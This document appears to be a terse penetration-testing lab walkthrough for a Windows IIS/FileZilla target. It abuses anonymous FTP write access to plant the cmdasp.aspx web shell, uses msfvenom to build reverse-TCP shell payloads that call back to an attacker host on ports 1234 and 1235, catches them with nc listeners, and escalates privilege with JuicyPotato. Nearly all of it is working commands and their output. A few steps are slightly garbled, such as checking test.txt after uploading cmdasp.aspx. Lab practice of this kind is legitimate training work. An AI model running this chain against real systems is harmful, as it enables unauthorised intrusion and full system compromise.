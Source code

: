 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
Lets perform another NSE Default-Scriptscan on FTPservice:
 - nmap -sC -sV -p21 192.168.121.132 -oA ftp-enum

PORT   STATE SERVICE VERSION
21/tcp open  ftp     FileZilla ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2020 aspnet_client
| -rw-r--r-- 1 ftp ftp            689 Jul 16  2020 iisstart.htm
|_-rw-r--r-- 1 ftp ftp         184946 Jul 16  2020 welcome.png
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Our scan shows that FTPallows anonymous login access. Also, it seems that we are able to accessthe root folder of an IISserver through FTP.

Test if you can upload a file through FTP:
ftp <ip-of-king-arthur>
 - user: anonymous pass: anonymous
 - put test.txt
 - dir (check if the file is in there)
Check in the web:
 - http://<kali-ip>/test.txt

Go to kali:
 - locate *.aspx
 - cp -f /usr/share/webshells/aspx/cmdasp.aspx . / to_your_working_dir/
 - exit ftp and relogin
 - put cmdasp.aspx
 - check the web | http://<kali-ip>/test.txt | textbox command: whoami and whoami \priv
 - you are able to check details through web

Build the initial payload:
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.121.131  lport=1234 -f exe -o initial.exe
 - login to ftp
 - binary
 - upload this through ftp
 - check current dir through web (this is in C:\windows\system32\inetsrv

Normally the default root folder of an IISweb server is C:\inetpub\wwwroot
Lets check if our payload was uploaded to thatdirectory.dir  C:\inetpub\wwwrootIn
 - on the web type | dir  C:\inetpub\wwwroot (initial.exe is in here)

Listen to initial payload's port:
nc -nlvp 1234

Type C:\inetpub\wwwroot\initial.exe in the Command field and select execute.
 - gained initial access

Let's begin the escalation of privilege:
 - We noticed above that SeImpersonatePrivilegeis one of the privileges that is available for the service account. We can leverage this with JuicyPotatoattack.
 - Download JuicyPotatoAttack from https://github.com/ohpe/juicy-potato/releases/tag/v0.1
 - Download the JuicyPotato.exetoKali and move it to your working directory. Use the command below in Kali 2021.mv /home/kali/Downloads/JuicyPotato.exe .

Build the final payload:
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.121.131 lport=1235 -f exe -o final.exe
 - transfer both through ftp
 - binary
 - put JuicyPotato.exe
 - put final.exe

Listen to final payload's port:
nc -nlvp 1235

Run the JuicyPotatoAttack:
JuicyPotato.exe -p final.exe -l 9999 -t *

Go back to the terminal